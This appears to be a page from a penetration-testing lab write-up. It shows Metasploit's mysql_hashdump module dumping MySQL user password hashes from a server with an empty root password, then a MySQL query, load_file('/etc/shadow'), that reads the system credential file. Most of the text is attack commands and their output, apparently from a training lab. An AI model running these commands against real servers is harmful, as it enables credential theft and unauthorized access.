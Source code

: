 ```bash
msfconsole
```

```bash
use auxiliary/scanner/mysql/mysql_hashdump 
set RHOSTS 192.49.51.3
set USERNAME root
set PASSWORD ""
exploit
```

```bash
[+] 192.49.51.3:3306 - Saving HashString as Loot: root:
[+] 192.49.51.3:3306 - Saving HashString as Loot: root:
[+] 192.49.51.3:3306 - Saving HashString as Loot: root:
[+] 192.49.51.3:3306 - Saving HashString as Loot: root:
[+] 192.49.51.3:3306 - Saving HashString as Loot: debian-sys-maint:*CDDA79A15EF590ED57BB5933ECD27364809EE90D
[+] 192.49.51.3:3306 - Saving HashString as Loot: root:
[+] 192.49.51.3:3306 - Saving HashString as Loot: filetest:*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
[+] 192.49.51.3:3306 - Saving HashString as Loot: ultra:*827EC562775DC9CE458689D36687DCED320F34B0
[+] 192.49.51.3:3306 - Saving HashString as Loot: guest:*17FD2DDCC01E0E66405FB1BA16F033188D18F646
[+] 192.49.51.3:3306 - Saving HashString as Loot: sigver:*027ADC92DD1A83351C64ABCD8BD4BA16EEDA0AB0
[+] 192.49.51.3:3306 - Saving HashString as Loot: udadmin:*E6DEAD2645D88071D28F004A209691AC60A72AC9
[+] 192.49.51.3:3306 - Saving HashString as Loot: sysadmin:*46CFC7938B60837F46B610A2D10C248874555C14
```

![Metasploit mysql_hashdump](assets/image-20230219162313519.png)

> 📌 `8` db users are present:
>
> `debian-sys-maint:*CDDA79A15EF590ED57BB5933ECD27364809EE90D`
>
> `root:`
>
> `filetest:*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B`
>
> `ultra:*827EC562775DC9CE458689D36687DCED320F34B0`
>
> `guest:*17FD2DDCC01E0E66405FB1BA16F033188D18F646`
>
> `sigver:*027ADC92DD1A83351C64ABCD8BD4BA16EEDA0AB0`
>
> `udadmin:*E6DEAD2645D88071D28F004A209691AC60A72AC9`
>
> `sysadmin:*46CFC7938B60837F46B610A2D10C248874555C14`

```bash
mysql -h 192.49.51.3 -u root
```

```bash
MySQL [(none)]> select load_file("/etc/shadow");
# /etc/shadow is readable
```

